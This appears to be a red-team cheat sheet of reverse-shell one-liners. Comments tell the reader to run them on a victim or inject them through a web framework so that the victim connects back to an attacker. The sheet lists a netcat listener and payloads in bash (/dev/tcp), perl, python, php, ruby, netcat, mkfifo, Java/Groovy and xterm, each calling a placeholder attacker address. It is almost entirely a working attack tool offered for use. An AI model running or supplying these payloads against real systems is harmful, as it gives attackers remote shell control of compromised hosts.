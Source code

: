 Shells
------


#Run these on the BlueTeam(Victim) or execute them as commands in a web frameworks(Victim)
#Open up a shell on your RedTeam(Attacker) and wait for the (Victim) to Connect back to the (Attacker)



#Open a shell on the Attacker(RedTeam)
nc -plv 1234



bash -i >& /dev/tcp/x.x.x.x/8080 0>&1



perl -e 'use Socket;$i="x.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



php -r '$sock=fsockopen("x.x.x.x",1234);exec("/bin/sh -i <&3 >&3 2>&3");'



ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'



nc -e /bin/sh x.x.x.x 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 1234 >/tmp/f



r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()



xterm -display x.x.x.x:1
Xnest :1
xhost +targetip
